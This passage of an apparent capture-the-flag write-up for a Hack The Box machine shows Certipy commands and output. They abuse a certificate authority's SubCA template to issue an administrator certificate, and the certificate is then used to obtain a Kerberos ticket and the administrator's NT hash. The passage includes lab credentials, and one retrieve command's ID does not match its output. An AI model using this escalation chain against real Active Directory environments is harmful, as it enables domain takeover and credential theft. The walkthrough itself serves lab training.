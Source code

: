 
Then, using the `SubCA` template, let's request certificate.

```vbnet
┌──(kali㉿kali)-[~/htb/Certipy]
└─$ certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target-ip 10.10.11.236 -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 20
Would you like to save the private key? (y/N) y
[*] Saved private key to 20.key
[-] Failed to request certificate
```

It is expected to be failed based on the article. Anyway, I can check the Request ID is 20.

```bash
┌──(kali㉿kali)-[~/htb/Certipy]
└─$ certipy ca -ca manager-DC01-CA -issue-request 20 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'

[*] Successfully issued certificate
```

Now the issued certificate can be retrieved using `req` command.

```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)    
                                                                    
[*] Rerieving certificate with ID 20          
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '20.key'                     
[*] Saved certificate and private key to 'administrator.pfx'
```

Then, let's try using it.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236                                   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

